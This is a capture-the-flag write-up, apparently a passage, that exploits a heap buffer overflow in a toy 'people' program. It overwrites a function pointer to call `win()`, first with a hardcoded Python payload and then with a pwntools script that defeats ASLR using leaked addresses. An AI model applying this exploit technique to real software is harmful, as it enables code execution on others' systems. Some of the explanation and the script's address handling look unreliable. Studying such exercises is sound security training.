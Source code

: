 ```
Type in the address of the person you want to say hi to: 0x555555559ac0
You say hello to AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.
Segmentation fault
```

The program gave us a segmentation fault after we tried to greet that person. This means that we most likely overwrote the `greeting` parameter, and if we're able to control the `greeting` parameter, we can execute whatever function we want to! Since the `name` attribute is 32 characters long, we could probably just write the address of `win()` right after it. Then we could use the `greet` command to execute our code.

Since ASLR is currently disabled, we know that the address of `win()` will always be `0x55555555529f`, which is written as `b'\x9fRUUUU'` as a Python little-endian byte string. Also, because ASLR is disabled, we also know that the first address that `malloc()` will return will always be `0x55555555a6c0`. This address does not have to be inputted in little endian format because the `%p` string formatter automatically converts it to little-endian format.

```
$ python -c "import sys; sys.stdout.buffer.write(b'new\n' + b'A'*32 + b'\x9fRUUUU' + b'\ngreet\n' + b'0x55555555a6c0\n' + b'q\n')" | ./people
win() is at 0x55555555529f.

Valid commands:
new: Give birth to a new person.
greet: Say hello to a person.
kill: Kill a person.
quit: Stop the program.

> Enter the person's name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�RUUUU was born at 0x55555555a6c0.
> Type in the address of the person you want to say hi to: You say hello to AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�RUUUU.
flag{insert_flag_here}
> Ending program.
```

My exploit above will first issue the "new" command to create a new `Person`. Then it will overflow the `name` buffer on the heap so that we are able to overwrite `greeting` with the address of `win()`. From there, we issue a `greet` command. The `greet` command requires the address of the `Person` as input, and since we know that `malloc()` will always first return `0x55555555a6c0`, we can just supply that as the `Person`'s address. This will execute the function that `greeting` points to, which is `win()` in this case. From there, we can issue the `q` command to exit the program.

This exploit uses hardcoded addresses, but since the program leaks the addresses of `win()` and each `Person` that we create, it is simple to write a script that exploits this program even when ASLR is enabled.

```
from pwn import *

# Start the process and get the flag
p = process("./people")
win_addr = p64(int(str(p.recv()).split("\\n")[0].split(" ")[3][:-1], 16))

# Create a new person, set his/her greeting to win_addr, and get their address
p.sendline(b"new")
p.sendline(b"A"*32 + win_addr)
person_addr = p64(int(str(p.recv()).split("\\n")[0].split()[9][:-1], 16))

# Execute the win() function and get the flag
p.sendline(b"greet")
p.sendline(person_addr)
print(str(p.recv()).split("\\n")[1])

# End the program
p.sendline(b"kill")
p.sendline(person_addr)
```